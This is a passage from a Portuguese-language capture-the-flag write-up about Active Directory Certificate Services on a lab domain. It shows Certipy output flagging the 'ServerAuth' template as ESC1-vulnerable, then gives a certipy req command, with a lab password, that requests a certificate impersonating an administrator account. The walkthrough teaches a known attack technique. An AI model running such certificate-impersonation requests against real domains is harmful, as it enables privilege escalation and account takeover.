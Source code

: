 ```
    Template Last Modified              : 2023-05-12T08:55:40+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : THM.LOCAL\Domain Admins
                                          THM.LOCAL\Domain Computers
                                          THM.LOCAL\Enterprise Admins
                                          THM.LOCAL\Authenticated Users
      Object Control Permissions
        Owner                           : THM.LOCAL\Administrator
        Full Control Principals         : THM.LOCAL\Domain Admins
                                          THM.LOCAL\Enterprise Admins
        Write Owner Principals          : THM.LOCAL\Domain Admins
                                          THM.LOCAL\Enterprise Admins
        Write Dacl Principals           : THM.LOCAL\Domain Admins
                                          THM.LOCAL\Enterprise Admins
        Write Property Enroll           : THM.LOCAL\Domain Admins
                                          THM.LOCAL\Domain Computers
                                          THM.LOCAL\Enterprise Admins
    [+] User Enrollable Principals      : THM.LOCAL\Authenticated Users
                                          THM.LOCAL\Domain Computers
    [!] Vulnerabilities
      ESC1                              : Enrollee supplies subject and template allows client authentication.

```

### Template vulnerável
- Nome: `ServerAuth`
- Vulnerabilidade: **ESC1**
    - `Enrollee supplies subject`: permite você definir UPN manualmente
    - `Client Authentication` está ativo
    - `Authenticated Users` têm permissão de Enroll

### Passo a Passo da Escalação

O motivo de estar utilizando a conta do Bradley é que, após tentar com a conta do Administrator sem sucesso, optamos por ele. Sabemos que Bradley faz parte do grupo dos administradores, portanto sua conta será útil.

`certipy req -u SUSANNA_MCKNIGHT@thm.local -p CHANGEME2023\! -upn BRADLEY_ORTIZ@thm.local -target thm.local -ca thm-LABYRINTH-CA -template ServerAuth`

![](attachment/702f098db700ad6b5abd8246a9ec6e65.png)
